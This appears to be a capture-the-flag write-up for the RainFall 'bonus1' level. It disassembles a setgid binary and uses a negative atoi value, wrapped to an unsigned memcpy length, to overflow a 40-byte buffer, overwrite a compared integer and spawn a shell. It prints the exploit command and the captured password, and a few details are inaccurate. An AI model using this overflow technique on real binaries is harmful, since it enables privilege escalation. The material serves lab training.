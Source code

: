 # bonus1

## Hint

When we log into the machine as `bonus1`, we notice a binary:

```shell-session
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

The first run of the binary is resulting a Segmentation Fault.

```shell-session
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```

And any arguments pass to the binary doesn't seems to do anything.

```shell-session
bonus1@RainFall:~$ ./bonus1 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bonus1@RainFall:~$
```

Lets dig into it

## gdb

After running `info variables` and `info functions` in gdb, we see no unknown symbols.

Conclusion:
There are no user-defined function or global variables neither.

Ok let's look at `main`

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0                     <-- allign the stack to 16 bytes boundaries
   0x0804842a <+6>:	sub    esp,0x40                           <-- 64 Bytes allocated.
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load *argv[]
   0x08048430 <+12>:	add    eax,0x4                            <-- eax = &argv[1]
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]                <-- eax = argv[1]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax                <-- prepare argv[1] as argument to atoi()
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>               <-- call atoi(argv[1])
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax           <-- store return of atoi(argv[1])
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9           <-- compare return of atoi(argv[1]) with 9
   0x08048446 <+34>:	jle    0x804844f <main+43>                <-- if atoi(argv[1]) <= 9, jump to main+43
   0x08048448 <+36>:	mov    eax,0x1                            <-- set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>               <-- jump to main+127 (return(1))
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]           <-- load atoi(argv[1])
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]                    <-- set ecx to atoi(argv[1]) * 4
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load char *argv[]
   0x0804845d <+57>:	add    eax,0x8                            <-- set eax to argv[2]
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]                <-- load char *argv[2]
   0x08048462 <+62>:	mov    edx,eax                            <-- set edx to eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]                     <-- load char buffer[40];
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx            <-- set 3rd argument to i *= 4
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx            <-- set 2nd argument to argv[2]
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax                <-- set 1st argument to buffer
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>             <-- call memcpy(buffer, argv[2], i)
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46    <-- compare i with '1464814662'
   0x08048480 <+92>:	jne    0x804849e <main+122>               <-- if i != '1464814662', jump to main+122 (return(0))
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0            <-- set 3rd argument to 0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580   <-- set 2nd argument to "sh"
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583       <-- set 1st argument to "/bin/sh"
   0x08048499 <+117>:	call   0x8048350 <execl@plt>           <-- call execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    eax,0x0                         <-- set eax to 0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret                                    <-- return(0)
End of assembler dump.
```

## Identifying the vulnerability 

We clearly can see that the `main` function is calling `execl` with the `/bin/sh` and `sh` arguments.

But how can we get there ?

### Underflowing the integer 

Our first argument to this binary is passed to `i = atoi(argv[1])`.

Then if our first argument is at most equal to `9`.

We can go further.

Then the value returned by `atoi()` is multiplied by `4`.

So `i` becomes `i * 4`.

Then we have `memcpy(buffer, argv[2], i)`.

We pass our second argument to the binary and it is copied byte after byte to the `buffer`.

The `buffer` can hold at most `40` bytes.

We cleary have a buffer overflow potential here. 

But from a simple mathematical standpoint, it is not possible.

Indeed, to get a buffer overflow, we have to pass more than `40` bytes to the `memcpy()` function.

But to get there we can at most give: `9 * 4` = `36 bytes` to `memcpy()`.

After a bit digging we can see that a integer conversion occurs there.

We receive a signed integer from the `atoi()` function, but we pass a unsigned integer to `memcpy()`.

So we must ensure to have a correct value for the `i` variable as a signed integer and pass the first check and still trigger a buffer overflow.

## Overflowing the buffer 

Since the integer is at the higher memory address than the buffer, we can easily overflow this address and pass the condition `if (i == 1464814662)`.

So technically we need more than 40 bytes to overflow the buffer and be able to overwrite the integer.

But how can we pass a positive value to memcpy with a negative integer as input ?

We know that `uint_max = 2^32 - 1 = 4294967295`.

So if we add `1` to `4294967295` we get 0 when casting it to a unsigned integer.

Let's divide by `4` to get the integer.

`4294967296 / 4 = 1073741824`. If we multiple `(unsigned int)(-1073741824 * 4)` we have 0.

We then have a negative integer that passes the crash we can now find our next segfault deeper in the executable.

We will find which value is causing a buffer overflow with `memcpy` now.

Let's find the segfault from there.

```gdb
(unsigned int)(-1073741824 * 4) = 4.
(unsigned int)(-1073741823 * 4) = 8.
(unsigned int)(-1073741822 * 4) = 12.
(unsigned int)(-1073741821 * 4) = 16.
(unsigned int)(-1073741820 * 4) = 20.
(unsigned int)(-1073741819 * 4) = 24.
(unsigned int)(-1073741818 * 4) = 28.
(unsigned int)(-1073741817 * 4) = 32.
(unsigned int)(-1073741816 * 4) = 36.
(unsigned int)(-1073741815 * 4) = 40.
(unsigned int)(-1073741814 * 4) = 44.
(unsigned int)(-1073741813 * 4) = 48.
(unsigned int)(-1073741812 * 4) = 52.
(unsigned int)(-1073741811 * 4) = 56.
(unsigned int)(-1073741810 * 4) = 60.
(unsigned int)(-1073741809 * 4) = 64.  <-- segfault !
```

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809
Segmentation fault (core dumped)
```

We can now overwrite the integer with an exact value and a padding of 40 bytes.

## recap

2 arguments are passed to the program:
1. argv[1] is fed to `atoi()`
   - a variable `i` of type `unsigned int `is used to store the returned value
   - it is then casted to `int` and then tested to be `<=` to 9.
      - false -> return 1
      - true -> continue with program
	 - multiply that value by 4 and call `memcpy`
2. argv[2] is fed to `memcpy` as follows: `memcpy(buffer, argv[2], i);`
   - as we know this function is prone to security exploits, we just need to find the correct value for `i` in order to correctly overflow the destination `buffer`.
   - After a bit of calculations we find a value (`-1073741809`) that not only allows us to pass de `<= 9` test, but also overflow the buffer used in the call to `memcpy` with a value of `64`.
   - Once we have managed to overflow the buffer, we just have to insert with the right padding a specific value at the address of the `i` variable in order to get to the call to `execv("/bin.sh", "sh", 0);`

## Exploit

No need shell code we know exactly where the integer is located. The rest will follow.

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
